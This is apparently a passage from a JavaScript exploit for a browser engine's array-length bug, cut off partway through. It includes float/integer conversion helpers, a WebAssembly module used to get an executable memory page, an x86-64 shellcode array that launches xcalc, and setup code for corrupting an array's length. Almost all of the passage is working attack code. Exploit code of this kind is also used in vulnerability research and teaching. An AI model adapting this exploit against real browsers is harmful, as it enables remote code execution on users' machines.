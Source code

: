 ```javascript
	bigUint64[0] = i;
	return float64[0];
}


function f2half(val)
{
	float64[0] = val;
	let tmp = Array.from(Uint32);
	return tmp;
}

function half2f(val)
{
	Uint32.set(val);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

array = Array(0x40000).fill(1.1);
args = Array(0x100 - 1).fill(array);
args.push(Array(0x40000 - 4).fill(2.2));
giant_array = Array.prototype.concat.apply([], args);
giant_array.splice(giant_array.length, 0, 3.3, 3.3, 3.3);

length_as_double = new Float64Array(new BigUint64Array([0x2424242400000001n]).buffer)[0];

var obj;
var corrupting_array;
var corrupted_array;

function trigger(array) {
  var x = array.length;
  x -= 67108861;
  x = Math.max(x, 0);
  x *= 6;
```